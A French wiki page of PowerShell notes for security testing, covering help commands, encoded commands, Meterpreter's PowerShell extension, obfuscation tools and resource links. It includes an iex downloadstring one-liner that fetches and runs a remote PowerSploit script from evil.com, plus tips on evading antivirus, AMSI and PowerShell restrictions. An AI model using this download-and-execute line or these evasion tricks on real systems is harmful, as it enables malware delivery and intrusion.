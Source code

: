 ```yaml
---
title: Powershell
permalink: /Powershell/
---
```


# Powershell

## Généralités

- powershell.exe n'est pas "Powershell" mais juste une interface pour intéragir avec. Il est possible d'utiliser d'autres interfaces comme **Not Powershell** (https://github.com/Ben0xA/nps) ou **PSAttack** (https://github.com/jaredhaight/PSAttack) Il est ainsi possible de contourner certaines restrictions avec ceci (e.g. blocage de powershell.exe ou Constrained Powershell Enforced)
- Il est possible d'activer le logging pour Powershell. 
- (Powershell v5): Constrained Powershell Enforced (lié à DeviceGuard) permet de bloquer certaines fonctionnalités de powershell (notamment celles utilisées par Invoke-Mimikatz). Cependant ceci est limité à **powershell.exe**.
- (Windows 10): [Anti malware Scan Interface](https://msdn.microsoft.com/fr-fr/library/windows/desktop/dn889587(v=vs.85).aspx) fournit une interface pour les antivirus qui permet notamment de faciliter l'analyse AV en mémoire.
   - Il existe des méthodes pour bypasser AMSI.
   - La plupart des AV ne supportent pas AMSI.
- (Windows 10): [Just Enough Administration](/Just_Enough_Administration/)


## Commandes

Obtenir de l'aide en powershell:

``` powershell
Get-Help Get-Command # Obtenir de l'aide sur Get-Command
Get-Help Get-Command -examples # Affiche les examples
Get-Help Get-Command -full # Affiche toute l'aide
Get-Help Get-Command -Parameter * # Affiche les paramétres
Get-Command Out* # Renvoie toutes les commandes dont le nom contient Out*
```

Pour faire des boucles:

``` powershell
Get-Process | ForEach-Object {$_.Name} # Boucle sur chaque résultat de la commande Get-Process et renvoie le nom
```

Pour faire du formatting / output:

``` powershell
Get-Process | Format-List -Property Threads, SessionId # Affiche le résultat sous forme de liste en se limitant à certaines informations
```

Charger un script distant:

``` powershell
iex (new-object net.webclient).downloadstring('file:///C:\\Tools\\Powersploit\\Powersploit.psd1')
iex (new-object net.webclient).downloadstring('https://evil.com/powersploit.psd1')
```

Encoder des commandes pour éviter certains problèmes avec les quotes & cie (notamment quand on a un shell via un MS-SQL ou autre):

``` powershell
PS C:\Users\user> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("net user"))
bgBlAHQAIAB1AHMAZQByAA==
PS C:\Users\user> powershell -e bgBlAHQAIAB1AHMAZQByAA==

comptes d’utilisateurs de \\Computer

-------------------------------------------------------------------------------
Administrateur           DefaultAccount           Invité
La commande s’est terminée correctement.
```

## Meterpreter

Il est possible d'utiliser powershell à partir d'un meterpreter:
```
load powershell
```

Voir [Meterpreter New Windows PowerShell Extension](http://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension)

## Obfuscation
Il est possible d'obfusquer du code powershell pour contourner certains antivirus qui bloquent powersploit & cie. L'outil [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) permet de faire ceci facilement. Il est cependant possible de bloquer les codes obfusqués (une analyse statistique permet de détecter les codes non légitimes).

## C#
Il est possible d'utiliser du C# via Powershell. Voir [Using C# in Powershell scripts](https://blogs.technet.microsoft.com/stefan_gossner/2010/05/07/using-csharp-c-code-in-powershell-scripts/)


Resources
---------

-  [PowerUp: A Usage Guide](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)
-  [PwnWiki](http://pwnwiki.io/#!scripting/powershell.md)
-  [DerbyCon - PowerShell Secrets and Tactics](https://www.youtube.com/watch?v=mPPv6_adTyg)
-  [PowerShell Security: Defending the Enterprise from the Latest Attack Platform](https://www.youtube.com/watch?v=_8yBjg7bRLo)
